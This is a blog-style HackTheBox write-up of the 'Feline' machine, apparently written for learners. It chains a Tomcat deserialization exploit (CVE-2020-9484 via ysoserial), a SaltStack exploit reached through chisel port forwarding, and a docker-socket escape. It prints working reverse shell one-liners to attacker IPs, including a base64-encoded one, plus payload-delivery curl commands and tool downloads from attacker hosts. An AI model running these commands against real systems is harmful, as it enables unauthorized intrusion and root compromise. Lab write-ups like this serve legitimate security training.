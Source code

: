 ```yaml
---
title: HackTheBox Feline
author: Marius Kimmina
date: 2021-03-08 14:10:00 +0800
categories: [HackTheBox]
tags: [docker]
---
```


## 0x0 Introduction
The first **hard** box that I have ever pwned, so lets dive right into it. This box involved a java deserialization attack to first get an inital foothold, once we are on it we use a known exploit in `saltstack` to become root of docker container, now you might wonder: Why would we want to become root of a docker-container? Well this docker container also had a miss configuration issue which then allowed us to mount files from the host system, such as the root.txt, into the container.
![image](/assets/images/feline/feline-pwn.png "Feline has been pwned")

## 0x1 How not to handle error messages

As always I start with an nmap scan, 

```
$ nmap -sC -sV -oN recon/nmap-default 10.10.10.205
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-01 08:24 GMT
Nmap scan report for feline.htb (10.10.10.205)
Host is up (0.39s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.27
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: VirusBucket
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


if we look at the website, running on port 8080, we see that this is some kind of malware analysis engine, called Virusbucket, and that we can upload files. 

![image](/assets/images/feline/feline-virusbucket.png "Feline Virusbucket")

if we capture the HTTP request for the file-upload, you can use a proxy like burp or ZAP for this, then you will see this:

![image](/assets/images/feline/feline-file-upload.png "Feline Upload")

But if we replace the filename here with some nonsense, then we can error from the application in which it leaks the location that our files are being upload to:

![image](/assets/images/feline/feline-upload-error.png "Feline Upload Error")

Which is some really useful information because if we can find a way to interact with the files that we have uploaded, through a tomcat vulnerability for example, then we need to know where to look for our uploaded files.

## 0x2 Cuz there is always a tomcat vulnerability

Since it's tomcat and we now that it's version 9.0.27 I, like most people solving this box probably, looked for a vulnerability in that found this blogpost: https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/ and the CVE in question is: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9484.  
If you are solving this box after it has retired and are following along with this post of mine I highly suggest that you go and read the "redtimmy" post, it was well written and to the point. 
The whole point of this exploit is that, if we can get a serialized object on the disk, which we can by simply uploading it, we can use a path traversal vulnerability in the Session-Cookie to get tomcat to deserialize it, which in turn can give us code execution on the box.  
Since we know that our upload files go to `/opt/samples/uploads/` we can set our `JSESSIONID` to `../../../../../../../opt/samples/uploads/the-file-that-we-have-uploaded`  
To create such a serailized object we use `ysoserial` which you can find here: https://github.com/frohoff/ysoserial  
The error message of the File upload had also told us that this uses apache.org.commons which is a libarry for all sorts of common deserializations. Knowing that we can use `ysoserial` with the `CommonCollections4`.  

First we create our reverse shell command and encode it with base64 to avoid spacing errors

```
echo 'bash -i >& /dev/tcp/tun0/4141 0>&1' | base64
```
Then we use ysoserial to prepare our exploit, notice that we use the {} bash syntax to, again, avoid spaces.
```
java -jar ysoserial.jar CommonsCollections4 "bash -c {echo,ZWNobyAnYmFzaCAtaSA+JiAvZGV2L3RjcC90dW4wLzQxNDEgMD4mMSc=}|{base64,-d}|{bash,-i}" > exploit.session
```

Upload the file either through the website or by using `curl`

```
curl 'http://10.10.10.205:8080/upload.jsp' -F "image=@exploit.session"
```

and use netcat to listen for incomming connections:

```
nc -lvnp 9009
listening on [any] 9009 ...
```

Now send another request with the malformed cookie to execute the payload

```
curl 'http://10.10.10.205:8080/upload.jsp' -H "Cookie: JSESSIONID=../../../../../../opt/samples/uploads/exploit"
```

## 0x3 Why so salty?

Now that we are on the host we discover that port 4005 and 4006 are open, these ports are, by default, used by saltstack. Saltstack is an infrastructure management software but for this box we don't need to know much about how it acctually works. What we do need to know though is that there was a very recent vulnerabily in it. If you wanna read more details about the vulnerability you can go here: https://www.helpnetsecurity.com/2020/05/04/saltstack-salt-vulnerabilities/  
Otherwise we are going straight to the exploit which can be found here: https://www.exploit-db.com/exploits/48421  
If we are gonna try to run this on the victim maschine we are going to run into an issue, which is that the `salt` python module is not installed on the box. 

```
$ python3 exploit.py 
Traceback (most recent call last):
  File "exploit.py", line 16, in <module>
    import salt
ModuleNotFoundError: No module named 'salt'
```

## 0x4 Port forwarding to the rescue

So since the saltstack ports are on only listening on localhost, we cannot use the exploit from our box directly but since we are already on the box we can use a programm called `chisel` to do port forwarding and thus make the saltstack accessible from our host maschine.  
First, to get chisel on the victim maschine, go download it from https://github.com/jpillora/chisel/releases and then you can simply use the python http server to transfer it to the box.

```
$ python3 -m http.server
```

Use wget to download chisel on the victim maschine.

```
$ wget http://10.10.16.11:8000/chisel
```

Now we forward some ports as follows:

```
./chisel client 10.10.16.11:5566 R:4506:127.0.0.1:4506
```

and 

```
./chisel server -p 5566 --reverse
```

And now we can use the exploit on our own maschine against localhost, this will then be forwarded to the victim. We want to get a new shell here so lets first setup netcat again

```
nc -lvnp 5577
```

With that running we can finally use the exploit and get a new shell on the box.

```
python3 exploit.py --master 127.0.0.1 --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.43/5577 0>&1"'
```

If everything has worked correctly here, we are `root`, yay! But it's still to early to celebrate, because we are root on a docker container, not the box itself. So we went from being a normal user on the box, to being root in docker container. That would under normal circumstances be considered a downgrade since being root of the container does not give us any more access but let's see...

## 0x5 The great docker escape

The first thing I noticed inside this container was a file called "todo.txt" inside the home directroy of the root user 

```
cat todo.txt
- Add saltstack support to auto-spawn sandbox dockers through events.
- Integrate changes to tomcat and make the service open to public.
```

On top of that I also noticed that the history file was not empty, it contained a lot of commands but one seemed particullarly interessting to me:

```
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

If I go ahead and run this one myself we get the following output:

```
root@2d24bf61767c:~# curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
<t /var/run/docker.sock http://localhost/images/json
[{"Containers":-1,"Created":1590787186,"Id":"sha256:a24bb4013296f61e89ba57005a7b3e52274d8edd3ae2077d04395f806b63d83e","Labels":null,"ParentId":"","RepoDigests":null,"RepoTags":["sandbox:latest"],"SharedSize":-1,"Size":5574537,"VirtualSize":5574537},{"Containers":-1,"Created":1588544489,"Id":"sha256:188a2704d8b01d4591334d8b5ed86892f56bfe1c68bee828edc2998fb015b9e9","Labels":null,"ParentId":"","RepoDigests":["<none>@<none>"],"RepoTags":["<none>:<none>"],"SharedSize":-1,"Size":1056679100,"VirtualSize":1056679100}]
```

From that we know that the container we are in is called `sandbox`. We are now able to copy the docker binary from the victim maschine into the docker-container. With our tomcat shell on the box we execute the following commands:

```
cd tmp
cp /usr/bin/docker .
python3 -m http.server 9009
```

Next, in the docker-container we download the docker-binary and make it executeable:

```
wget http://172.17.0.1:9001/docker
chmod +x docker
```

With this we can copy contents from the victim maschine into the docker-container using the following command (inside docker):

```
./docker run -v /:root/:root -it sandbox
```

And we are done, we are now able to access the root flag with a simple `cat root/root.txt`

## 0x6 Closing Words

This was the first `hard` box that I have ever owned and I learned a lot from it, the privilege escalation from normal user to root of docker container was a nice twist that we have never before seen on any other box (as far as I know) and I learned a lot from that. My respect to the creators of this awesome challenge.




